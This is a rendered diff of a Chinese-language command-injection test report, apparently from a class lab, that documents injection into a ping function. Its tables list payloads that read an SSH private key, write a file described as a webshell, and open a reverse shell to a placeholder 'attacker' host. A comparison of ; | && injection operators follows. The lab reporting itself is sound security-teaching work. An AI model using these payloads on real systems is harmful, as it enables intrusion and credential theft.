

Before and after one commit to Dazzling1-LJY/LL, a Markdown page: Class01/命令注入漏洞检测报告.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Class01/命令注入漏洞检测报告.md
+++ b/Class01/命令注入漏洞检测报告.md
@@ -249,27 +369,48 @@ root:$y$j9T$yRwJS6FfW9JDhTbde0lGR/$FLnSeCbgO/kBBHR5shv5...:19859:0:99999:7:::
 
-##### 攻击向量 5：读取应用源码
+| 属性 | 内容 |
+|:-----|:------|
+| **攻击 Payload** | `127.0.0.1; cat /root/.ssh/id_rsa` |
+| **实际执行命令** | `ping -c 3 127.0.0.1; cat /root/.ssh/id_rsa` |
+| **攻击结果** | ✅ **泄露 SSH RSA 私钥** |
+
+> ⚠️ 攻击者获取 SSH 私钥后可直接登录服务器。
+
+##### 攻击 3：列出项目目录
 
 | 属性 | 内容 |
 |:-----|:------|
 | **攻击 Payload** | `127.0.0.1; ls -la /opt/Class01/Class01/` |
-| **实际执行命令** | `ping -c 3 127.0.0.1; ls -la /opt/Class01/Class01/` |
-| **攻击结果** | ✅ 列出项目目录 |
+| **攻击结果** | ✅ 列出项目目录结构 |
 
----
-
-##### 攻击向量 6：写入文件
+##### 攻击 4：写入文件（webshell 后门）
 
 | 属性 | 内容 |
 |:-----|:------|
 | **攻击 Payload** | `127.0.0.1; echo 'HACKED' > /tmp/pwned.txt` |
-| **实际执行命令** | `ping -c 3 127.0.0.1; echo 'HACKED' > /tmp/pwned.txt` |
-| **攻击结果** | ✅ /tmp/pwned.txt 写入成功，内容为 `HACKED` |
+| **攻击结果** | ✅ `/tmp/pwned.txt` 写入成功，内容为 `HACKED` |
 
-> ⚠️ **这意味着攻击者可以在服务器上写入任意文件（包括 webshell）！**
+> ⚠️ **攻击者可在服务器写入任意文件（webshell 后门等）！**
 
----
+**截图区域**：
 
-##### 攻击向量 7：反弹 shell（理论）
+> （在此处插入写入文件的注入页面截图——确认文件写入成功）
+
+##### 攻击 5：反弹 shell（理论）
+
+| 属性 | 内容 |
+|:-----|:------|
+| **攻击 Payload** | `127.0.0.1; bash -i >& /dev/tcp/attacker/4444 0>&1` |
+| **攻击结果** | 🔴 **理论可行，可获取服务器完整 shell 控制权** |
+
+### 四种注入方式对比
+
+| 对比项 | 分号 `;`（CI-001） | 管道 `\|`（CI-002） | 逻辑与 `&&`（CI-003） | 综合利用（CI-004） |
+|:-------|:-----------------:|:------------------:|:--------------------:|:----------------:|
+| 执行条件 | 无条件 | 无条件 | 前一条命令成功 | 无条件 |
+| ping 输出 | ✅ 保留 | ❌ 丢弃 | ✅ 保留 | ✅ 保留 |
+| 注入命令输出 | ✅ 显示 | ✅ 显示 | ✅ 显示 | ✅ 显示 |
+| 典型用途 | 通用注入 | 静默注入 | 条件注入 | 文件读写/驻留 |
+| 危害等级 | 🔴 严重 | 🔴 严重 | 🔴 严重 | 🔴 严重 |
 
 | 属性 | 内容 |
 |:-----|:------|
```
Also changed, not shown: other parts of Class01/命令注入漏洞检测报告.md (+129 -9 lines).
